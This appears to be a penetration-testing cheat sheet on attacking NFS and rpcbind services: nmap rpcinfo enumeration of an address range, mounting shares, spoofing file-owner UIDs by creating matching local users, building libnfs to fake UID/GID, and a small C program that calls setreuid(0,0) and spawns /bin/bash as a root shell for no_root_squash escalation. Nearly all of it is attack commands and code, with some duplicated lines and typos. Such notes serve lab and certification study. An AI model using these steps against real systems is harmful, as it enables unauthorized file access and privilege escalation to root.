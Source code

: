 ### Enumurating

We can use NSE scripts like rpcinfo to find services that may have registered with rpcbind:

```shell
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
```

### Mounting

```shell
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```

### Permissions

If you mount a folder which contains **files or folders only accesible by some user** (by **UID**). You can **create** **locally** a user with that **UID** and using that **user** you will be able to **access** the file/folder.

```shell
sudo adduser -u 1000 pwn
sudo addgroup -g 1000 pwn
usermod -u 2005 -g 1000 foo
usermod -a -G 2005 foo
```

###  fake UID/GID NFSv3/NFSv4 
```shell
#https://github.com/sahlberg/libnfs

#------------------
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
#--------------
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
#------------------
gcc pwn.c -o a.out

```

###  `no_root_squash` (has the share behave like a traditional filesystem)
```shell
# SHow NFS Permissions
showmount -e 10.11.1.72 
```
